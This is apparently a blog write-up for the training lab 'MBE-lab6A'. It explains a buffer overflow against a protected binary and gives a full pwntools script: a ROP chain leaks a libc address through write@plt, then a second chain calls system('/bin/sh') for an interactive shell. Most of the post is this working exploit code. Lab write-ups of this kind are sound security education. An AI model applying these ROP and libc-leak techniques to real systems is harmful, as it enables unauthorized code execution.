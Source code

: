 ```yaml
---
layout: post
title: MBE-lab6A
---
```




ASLR + NX + PIE + Partial RELRO
make_note() is vulnerable.
Approach: return to plt. However, all the plt addresses are jumped to using edx. like [edx+0x20],[edx+0x3c] etc. So, we need to
load the correct value into edx. ROP for that. Then use write to leak a libc address. Then use offsets to calculate system
and the magic address ( which contains "/bin/sh" string already in the libc).
Then run the vulnerability again (ROP) and then do system().
Coded in python.

```
#!/usr/bin/python
from pwn import *
'''overwrite sfunc with make_note and then call choice 3'''

#offset = 90
name = "A"*31 + "\n"
desc = "B"*90
#sfunc = "C"*4
sfunc = p32(0x565559af)
desc += sfunc

ropchain = "A"*52 #Overflow gets()

# write@plt --> make_note() --> p32(1) --> got.plt --> p32(4)
# got.plt = make_note + 9825

# pop ebx; ret
ropchain += p32(0x56555655)
ropchain += p32(0x56558000)
#ropchain += 

got = 0x565559af + 9817
#got = 0x565559af+4
write1 = 0x56555730
ropchain += p32(write1)
ret = 0x565559af
argument = p32(1)
argument += p32(got)
#argument += p32(got)
argument += p32(4)

ropchain += p32(ret)
ropchain += argument
ropchain += "\n"

desc += "\n"


def get_leak(b):
	word = "0x"
	word += b[6] + b[7]
	word += b[4] + b[5]
	word += b[2] + b[3]
	word += b[0] + b[1]
	print word
	return word

def exploit():
	sh1 = process("./lab6A")
	# raw_input()
	sh1.send("1\n")
	sh1.send(name)
	sh1.send(desc)
	fg = sh1.recv()
	# call make_note now.
	#raw_input()
	sh1.send("3\n")
	a = sh1.recv()
	find1 = "Note About"
	if find1 in a:
		#print a
		raw_input("Press Enter to send ROP Chain!!")
		# send ropchain now.
		sh1.send(ropchain)
		#sh1.interactive()
		b = sh1.recvuntil("Make")
		b = b.strip("Make")
		b = b.encode("hex")
		leak = get_leak(b)
		leak = int(leak,16)
		system_addr = leak - 1782112
		sh_address = system_addr + 1182347
		#print leak

		raw_input("Enter to start attack phase 2")
		ropchain2 = "A"*52
		ropchain2 += p32(system_addr)
		ropchain2 += "DUMY"
		ropchain2 += p32(sh_address)
		ropchain2 += "\n"
		sh1.send(ropchain2)
		sh1.interactive()
	sh1.close()

i = 0
while True:
	try:
		exploit()
	except:
		i += 1
print "Try %d" %i
```

